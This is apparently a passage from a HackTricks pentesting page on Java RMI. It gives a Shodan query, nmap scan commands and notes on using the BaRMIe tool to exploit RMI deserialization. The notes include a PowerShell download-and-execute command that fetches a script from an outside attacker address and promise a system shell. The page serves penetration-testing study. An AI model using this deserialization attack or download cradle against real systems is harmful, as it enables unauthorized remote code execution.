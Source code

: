 We can still achieve arbitrary Java deserialization by replacing object or array types in a method signature. **Unlike RMI-JRMP, `String` types can still be exploited in RMI-IIOP servers compiled with the latest build of the JDK8.**

## Shodan

* `port:1099 java`

## HackTricks Automatic Commands

```text
Protocol_Name: Java-RMI    #Protocol Abbreviation if there is one.
Port_Number:  1098     #Comma separated if there is more than one.
Protocol_Description: Java Remote Method Inclusion         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for Java-RMI
  Note: |
    The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an object that exists in one Java virtual machine to access and call methods that are contained in another Java virtual machine; This is basically the same thing as a remote procedure call, but in an object-oriented paradigm instead of a procedural one, which allows for communication between Java programs that are not in the same address space.

    nmap -sC -sV -Pn 10.11.1.73 -p 1100 
        may dump the reg of the java-rmi instance. If this is the case the machine may be vulnerable to a deserializaion exploit.
        BaRMIe.jar is the way to go to directly exploit this vulnerability.
        https://github.com/NickstaDB/BaRMIe/releases/tag/v1.01      is where the latest build is hosted, pre-built

    useage
        java -jar BaRMIe_v1.01.jar -attack 10.11.1.73 1100
        target select)          1
        available attacks)    1 (illegal bind deserialization)
        payloads)                1 (Apache Common Collections 3.1 worked for me, others may also work)
        OS Command)         powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://192.168.119.167:80/3232.ps1')"

        enjoy your system shell!

    https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi

Entry_2:
  Name: Nmap RMI
  Description: Nmap with RMI Scripts
  Command: nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1098 {IP}

Entry_3:
  Name: Nmap register
  Description: Dump register of java-rmi instance
  Command: nmap -sC -sV -Pn {IP} -p 1100
```

